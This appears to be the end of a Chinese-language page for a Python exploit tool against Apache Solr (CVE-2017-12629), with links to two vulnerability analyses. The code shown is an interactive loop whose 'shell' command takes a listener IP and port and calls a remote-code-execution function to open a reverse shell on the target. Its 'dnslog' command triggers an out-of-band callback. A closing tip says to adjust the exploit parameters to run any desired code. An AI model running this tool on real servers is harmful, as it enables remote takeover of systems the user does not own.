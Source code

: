 ```python

    while True:
        n = random.randint(1, 9999)
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        elif cmd == "shell":
            IP   = str(input("\033[35m请输入监听IP   >>> \033[0m"))
            PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
            POC_3(target_url, core_name, n, IP, PORT)
        elif cmd == "dnslog":
            dnslog_url = str(input('\033[35m请输入你的dnslog地址：\033[0m'))
            POC_2(target_url, core_name, dnslog_url, n)
```

![](/img/20210924015227913242.png)

![](/img/20210924015228301430.png)

> [!NOTE]
>
> 如果shell或dnslog无反应，可以选择更改一下POC的部分参数执行需要的代码

## 参考文章

[Apache Solr远程代码执行漏洞（CVE-2017-12629）从利用到入侵检测](https://www.freebuf.com/sectool/159970.html)

[cve-2017-12629 apache solr xxe & rce 漏洞分析](https://blog.csdn.net/whatday/article/details/106974271?utm_medium=distribute.pc_relevant.none-task-blog-title-7&spm=1001.2101.3001.4242)

